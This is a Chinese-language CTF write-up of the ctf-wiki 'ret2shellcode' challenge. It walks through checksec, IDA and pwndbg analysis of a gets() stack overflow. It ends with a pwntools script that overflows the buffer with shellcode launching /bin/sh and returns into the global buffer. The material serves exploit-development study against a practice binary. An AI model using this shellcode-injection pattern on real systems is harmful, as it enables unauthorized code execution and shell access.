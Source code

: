 # ret2shellcode

> 出自 https://github.com/ctf-wiki/ctf-wiki 中的Pwn: Linux Pwn: 栈溢出: 基本ROP
>
> writer: github.com/hex-16   data: 2021.3   contact: hexhex16@outlook.com
>
> file: ret2shellcode     (download from https://github.com/ctf-wiki/ctf-wiki)
>
> 原始出处未知，非比赛题目(也许)，故所在文件夹命名方式有所区别

- TBD: 无法获取稳定shell，疑似与bbs段没有可执行权限有关，vmmap显示的内容与ctf-wiki上展示的不同

# checksec

- 使用的是从 https://github.com/slimm609/checksec.sh 安装的新版`checksec`

```bash
$ checksec --file=ret2shellcode
RELRO          STACK CANARY     NX           PIE     RPATH     RUNPATH     Symbols      FORTIFY Fortified Fortifiable  FILE
Partial RELRO  No canary found  NX disabled  No PIE  No RPATH  No RUNPATH  79) Symbols    No    0         3            ret2shellcode
$ checksec --version
checksec v2.4.0, Brian Davis, github.com/slimm609/checksec.sh, Dec 2015
Based off checksec v1.5, Tobias Klein, www.trapkit.de, November 2011
```

- 注意没有canary，没有NX（no-execute disabled）即没有禁止执行保护

# IDA Analysis

- IDA显示的main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

- 代码中将输入的字符串`s`复制到了`buf2`中，`buf2`在内存的`.bbs`段，该段存储没有初始化的和初始化为0的全局变量。`.bbs`段相关知识查看https://github.com/hex-16/Markdown_Note/blob/master/%5BProgram%5D_C_Cpp_Python_php_Latex_DataBase/%5Bc%5D_Basis_DataType_Pointer_DataArea_Heap_Stack_BitOperation_bool.md
- IDA中显示的`buf2`存储的区域：

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```



# gdb(pwndbg) Analysis

- 已安装pwndbg

```bash
$ chmod 777 ./ret2shellcode
$ gdb -q ret2shellcode
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ret2shellcode...
pwndbg> b main
Breakpoint 1 at 0x8048536: file ret2shellcode.c, line 8.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode

Breakpoint 1, main () at ret2shellcode.c:8
8       ret2shellcode.c: No such file or directory.
......................
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x8049000  0x804a000 r--p     1000 0      /home/kali/CTF/pwn/ret2shellcode
 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode
0xf7dca000 0xf7de7000 r--p    1d000 0      /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7de7000 0xf7f3c000 r-xp   155000 1d000  /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7f3c000 0xf7fac000 r--p    70000 172000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fac000 0xf7fad000 ---p     1000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fad000 0xf7faf000 r--p     2000 1e2000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7faf000 0xf7fb1000 rw-p     2000 1e4000 /usr/lib/i386-linux-gnu/libc-2.31.so
0xf7fb1000 0xf7fb3000 rw-p     2000 0
0xf7fcb000 0xf7fcd000 rw-p     2000 0
0xf7fcd000 0xf7fd1000 r--p     4000 0      [vvar]
0xf7fd1000 0xf7fd3000 r-xp     2000 0      [vdso]
0xf7fd3000 0xf7fd4000 r--p     1000 0      /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7fd4000 0xf7ff1000 r-xp    1d000 1000   /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ff1000 0xf7ffc000 r--p     b000 1e000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffc000 0xf7ffd000 r--p     1000 28000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xf7ffd000 0xf7ffe000 rw-p     1000 29000  /usr/lib/i386-linux-gnu/ld-2.31.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

- 注意` 0x804a000  0x804b000 rw-p     1000 1000   /home/kali/CTF/pwn/ret2shellcode`这是`buf2`所在的区域
- 这里和ctf-wiki上显示的不一致，`0x804a000  0x804b000  rw-p`这一段并没有执行(`x`)权限





```c
$ gdb ./ret2shellcode -q
pwndbg: loaded 188 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./ret2shellcode...
pwndbg> b *0x080485AF
Breakpoint 1 at 0x80485af: file ret2shellcode.c, line 15.
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2shellcode
No system for you this time !!!
abcdabcd123456789

Breakpoint 1, 0x080485af in main () at ret2shellcode.c:15
15      ret2shellcode.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0xffffd3bc ◂— 'abcdabcd123456789'
 EBX  0x0
 ECX  0xf7faf580 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xfbad2288
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0
 ESP  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
 EIP  0x80485af (main+130) —▸ 0xfffe6ce8 ◂— 0x0
────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x80485af <main+130>    call   strncpy@plt <strncpy@plt>
        dest: 0x804a080 (buf2) ◂— 0x0
        src: 0xffffd3bc ◂— 'abcdabcd123456789'
        n: 0x64

   0x80485b4 <main+135>    mov    dword ptr [esp], 0x8048680
   0x80485bb <main+142>    call   printf@plt <printf@plt>

   0x80485c0 <main+147>    mov    eax, 0
   0x80485c5 <main+152>    leave
   0x80485c6 <main+153>    ret

   0x80485c7               nop             ..............
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────────
00:0000│ esp  0xffffd3a0 —▸ 0x804a080 (buf2) ◂— 0x0
01:0004│      0xffffd3a4 —▸ 0xffffd3bc ◂— 'abcdabcd123456789'
02:0008│      0xffffd3a8 ◂— 0x64 /* 'd' */
03:000c│      0xffffd3ac ◂— 0x0
04:0010│      0xffffd3b0 —▸ 0xf7ffd000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x29f3c
05:0014│      0xffffd3b4 —▸ 0xffffd43c —▸ 0xffffd464 ◂— 0x0
06:0018│      0xffffd3b8 ◂— 0x2
07:001c│ eax  0xffffd3bc ◂— 'abcdabcd123456789'
────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0  80485af main+130
   f 1 f7de8e46 __libc_start_main+262
```

- s的地址：`0xffffd3bc`
- `ebp`栈帧基地址：`0xffffd428`,  s相对于`ebp`的偏移为 `0xffffd3bc - 0xffffd428` = `-0x6c`

# Exploit

- 获取的shell不稳定，疑似与前面显示的`0x804a000  0x804b000  rw-p`这一段没有执行(`x`)权限有关

```python
#!/usr/bin/env python
from pwn import *

context.log_level = 'debug'

context.binary = './ret2shellcode'  # context(os='linux', arch='i386')
print(context)

sh = process('./ret2shellcode')
# shellcraft.i386.linux.sh()  #shellcraft.sh()
shellcode = asm(shellcraft.sh())  # type(shellcraft.sh()): str 为汇编代码
print("shellcode: ", type(shellcode), shellcode)
buf2_addr = 0x0804A080
payload = shellcode.ljust(0x6c + 4, b'A') + p32(buf2_addr)
sh.sendline(payload)
# b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80AAAA...A\x80\xa0\x04\x08'
print("sendline: ", type(payload), len(payload), " : ", payload)
sh.interactive()
```





